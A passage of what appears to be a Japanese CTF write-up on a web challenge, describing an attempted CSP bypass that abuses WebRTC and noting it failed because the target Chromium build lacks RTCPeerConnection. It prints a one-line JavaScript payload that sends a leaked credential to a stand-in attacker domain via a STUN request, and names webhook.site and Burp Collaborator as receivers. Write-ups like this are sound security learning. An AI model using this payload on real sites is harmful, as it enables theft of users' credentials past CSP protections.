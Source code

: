 <img src="/img/2024/03-27/Untitled%2012.png" width="550px" height="auto"> 

#### 無理筋1.5 - RTCでCSP bypass

無理筋1の派生。CSPが結構固い問題だが、調べるとRTCなら↓のようにCSP bypassできるという記事を見かけた。

```jsx
(async()=>{p=new RTCPeerConnection({iceServers:[{urls: "stun:LEAK.your-domain"}]});p.createDataChannel('');p.setLocalDescription(await p.createOffer())})()
```

[https://webhook.site/](https://webhook.site/) やBurp Collaboratorなどと組み合わせ、サブドメイン部分にクレデンシャルをセットさせてSTUNサーバーにリクエストさせるのが一つの定石。

しかし今回は、Chromiumのビルド時にwindow (JSでのglobalなあれ) からRTCPeerConnectionが生えなくなっている。

<img src="/img/2024/03-27/Untitled%2013.png" width="550px" height="auto"> 
